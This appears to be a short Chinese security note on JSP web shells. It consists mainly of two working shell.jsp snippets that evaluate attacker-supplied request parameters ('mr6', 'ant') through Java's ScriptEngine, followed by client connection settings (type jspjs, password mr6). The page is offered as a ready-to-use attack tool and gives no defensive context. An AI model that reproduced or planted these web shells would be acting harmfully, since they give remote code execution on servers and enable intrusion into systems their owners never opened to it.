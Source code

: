 

## WebShell下的利用

### 原始Shell

shell.jsp

```
<%

     javax.script.ScriptEngine engine = new javax.script.ScriptEngineManager().getEngineByName("js");
     engine.put("request", request);
     engine.put("response", response);
     engine.eval(request.getParameter("mr6"));

%>
```

甚至不用绑定request/response对象也可以

```
<%
    out.println(new javax.script.ScriptEngineManager().getEngineByName("js").eval(request.getParameter("ant")));
%>
```



类型选择jspjs，密码mr6

![image-20230802163059975](./assets/image-20230802163059975.png)
